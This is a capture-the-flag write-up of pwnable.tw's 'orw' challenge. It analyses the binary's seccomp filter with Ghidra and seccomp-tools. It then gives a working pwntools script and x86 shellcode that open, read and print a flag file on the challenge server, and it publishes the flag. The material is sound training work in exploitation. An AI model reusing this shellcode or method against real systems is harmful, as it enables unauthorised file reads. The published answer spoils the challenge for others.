 ```yaml
---
layout: post
title:  "Solving pwnable's - orw - 2/???"
date:   2023-01-11 11:00:34 -0400
categories: writeup ctf pwn assembly x86 pwnable.tw
---
```


[https://pwnable.tw](https://pwnable.tw/)

The challenge description says:

Only `open` `read` `write` syscalls are allowed to use.

But is that enforced? How?

### Seccomp

Taking a look using the ghidra decompiler:

```c
void orw_seccomp(void)
{
  int iVar1;
  undefined4 *puVar2;
  undefined4 *puVar3;
  int in_GS_OFFSET;
  undefined2 local_88 [2];
  undefined4 *local_84;
  undefined4 local_80 [24];
  int local_20;
  
  local_20 = *(int *)(in_GS_OFFSET + 0x14);
  puVar2 = &DAT_08048640;
  puVar3 = local_80;
  for (iVar1 = 0x18; iVar1 != 0; iVar1 = iVar1 + -1) {
    *puVar3 = *puVar2;
    puVar2 = puVar2 + 1;
    puVar3 = puVar3 + 1;
  }
  local_88[0] = 0xc;
  local_84 = local_80;
  prctl(0x26,1,0,0,0);
  prctl(0x16,2,local_88);
  if (local_20 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

There are 3 interesting things in this code, the function name, a call to a function that I don't recognize, and the `in_GS_OFFSET` thing.

The `in_GS_OFFSET` seems to be related to stack canaries, so I didn't look into it any further.

[seccomp](https://man7.org/linux/man-pages/man2/seccomp.2.html) is a computer security facility in the Linux kernel and is probably what is filtering the syscalls.

[prctl](https://man7.org/linux/man-pages/man2/prctl.2.html) manipulates various aspects of the behavior of the calling thread or process, this is how seccomp is set in a process.

The first call sets the PR\_SET\_NO\_NEW\_PRIVS flag and the second one sets the PR\_SET\_SECCOMP flag.

You can find what each flag does with the command `man prctl` also, you can look at the file that defines the flags: [linux/prctl.h](https://github.com/torvalds/linux/blob/master/include/uapi/linux/prctl.h).

The first flag limits the privileges that execve can grant.

The second one sets seccomp on the process.

According to [linux/seccomp.h](https://github.com/torvalds/linux/blob/master/include/uapi/linux/seccomp.h), 2 on the 2nd argument sets the seccomp mode to filter which takes a struct as the 3rd argument with the allowed syscalls.

There is a very useful tool to find out what the seccomp rules are being used in the binary. It's called [seccomp-tools](https://github.com/david942j/seccomp-tools) and it gives the following output:

```csharp
line  CODE  JT   JF      K
=================================
0000: 0x20 0x00 0x00 0x00000004  A = arch
0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011
0002: 0x20 0x00 0x00 0x00000000  A = sys_number
0003: 0x15 0x07 0x00 0x000000ad  if (A == rt_sigreturn) goto 0011
0004: 0x15 0x06 0x00 0x00000077  if (A == sigreturn) goto 0011
0005: 0x15 0x05 0x00 0x000000fc  if (A == exit_group) goto 0011
0006: 0x15 0x04 0x00 0x00000001  if (A == exit) goto 0011
0007: 0x15 0x03 0x00 0x00000005  if (A == open) goto 0011
0008: 0x15 0x02 0x00 0x00000003  if (A == read) goto 0011
0009: 0x15 0x01 0x00 0x00000004  if (A == write) goto 0011
0010: 0x06 0x00 0x00 0x00050026  return ERRNO(38)
0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
```

So it is blocking every call other than those listed. Because of that, it doesn't seem like we can get remote code execution, but we just need to read the flag anyway.

The struct with the syscalls in the decompiled code is the `&DAT_08048640` variable. We then can look at what is in that address in memory and check that it matches the output from seccomp-tools:

```plaintext
0000: 0x20 0x00 0x00 0x00000004  A = arch

08048640 20 00 00 00     undefined4 00000020h
08048644 04              ??         04h
08048645 00              ??         00h
08048646 00              ??         00h
08048647 00              ??         00h
---

0001: 0x15 0x00 0x09 0x40000003  if (A != ARCH_I386) goto 0011

08048648 15              ??         15h
08048649 00              ??         00h
0804864a 00              ??         00h
0804864b 09              ??         09h
0804864c 03              ??         03h
0804864d 00              ??         00h
0804864e 00              ??         00h
0804864f 40              ??         40h
---
```

I think it's possible to make ghidra recognize this data as a struct on the decompiler but I haven't figured out how to do it.

The man page says that it should be a `sock_filter` struct but the ghidra datatypes don't have that and I haven't played with ghidra that much.

### Actual Binary

The way the challenge works is, it asks us for a shellcode and it runs or seccomp crashes it. Pretty straightforward.

Here is my solution:

```python
from pwn import *
from subprocess import Popen, PIPE
import sys


def shellcode_from_objdump(obj):
    res = ""
    assemble = Popen(["as", "--32", f"{obj}.s", "-o", f"{obj}.o"]).wait()
    link = Popen(["ld", "-m", "elf_i386", f"{obj}.o", "-o", f"{obj}"]).wait()
    p = Popen(["objdump", "-d", obj], stdout=PIPE, stderr=PIPE)
    (stdoutdata, stderrdata) = p.communicate()
    if p.returncode == 0:
        for line in stdoutdata.splitlines():
            line = line.decode("utf-8")
            cols = line.split("\t")
            if len(cols) > 2:
                for b in [b for b in cols[1].split(" ") if b != ""]:
                    res = res + ("\\x%s" % b)
    else:
        raise ValueError(stderrdata)

    return b"".join([bytes.fromhex(byte) for byte in res.split("\\x")[1:]])


shellcode = shellcode_from_objdump("/mnt/hgfs/pwn/exploit")
send = b"AAAAAAAAAAAAAAAAAAAA"

# p = gdb.debug("./orw", gdbscript="b *0x8048585\n conti\n ni\n si")
# p = process("./orw")
p = remote("chall.pwnable.tw", 10001)

print(f"Recv 1: {p.recv()}")
p.send(shellcode)
print(f"Recv 2: {p.recv()}")
```

```cpp
.intel_syntax noprefix

.text
  .global _start

_start:
  # open
  mov eax, 0x5
  push 0x6761
  push 0x6c662f77
  push 0x726f2f65
  push 0x6d6f682f
  mov ebx, esp
  mov ecx, 0x0
  mov edx, 0777
  int 0x80

  # read
  mov ebx, eax
  mov eax, 0x3
  push 0
  push 0
  push 0
  lea ecx, [esp]
  mov edx, 0x64
  int 0x80

  # write
  mov eax, 0x4
  mov ebx, 0x1
  mov edx, 0x64
  int 0x80
```

The python script reads and converts the assembly file to shellcode by doing `as --32 exploit.s -o exploit.o && ld -m elf_i386 exploit.o -o exploit` and then using `objdump -D exploit` to get the actual code.

It is a pretty useful assembly playground, you can edit the assembly run the program and get a good feedback loop going. Found the objdump code from [gist](https://gist.github.com/duanckham/0b9ec0f55b6593cdffb5).

flag: **FLAG{sh3llc0ding\_w1th\_op3n\_r34d\_writ3}**

